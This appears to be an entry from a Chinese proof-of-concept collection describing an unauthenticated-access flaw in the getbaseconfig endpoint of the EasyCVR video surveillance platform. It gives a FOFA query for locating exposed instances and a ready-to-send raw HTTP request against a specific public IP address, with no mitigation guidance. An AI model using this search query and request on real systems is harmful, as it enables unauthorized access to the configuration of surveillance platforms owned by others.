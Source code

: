 # EasyCVR-视频管理平台getbaseconfig接口未授权访问

EasyCVR视频管理平台，作为TSINGSEE青犀视频旗下的一款重要产品，是一款功能强大的视频融合+AI智能分析网关平台。平台基于分布式、负载均衡等流媒体技术，提供广泛兼容、安全可靠、开放共享的视频综合服务。它支持多协议的设备视频接入、采集、AI智能检测、处理、分发、管理等服务，并具备轻量化接入、传输、处理与分发能力，可实现一站式视频融合共享管理。支持RTSP、RTMP、GB28181、GB35114、海康Ehome、大华SDK、海康SDK等多种协议的视频设备接入，兼容市面上几乎所有视频终端。

FOFA: 

```plain
title="EasyCVR"
```

GET /api/v1/getbaseconfig HTTP/2
Host: 122.225.84.166:4443
Cookie: token=-RDgCfFNR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://122.225.84.166:4443/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

![image-20250210111616195](images/image-20250210111616195.png)



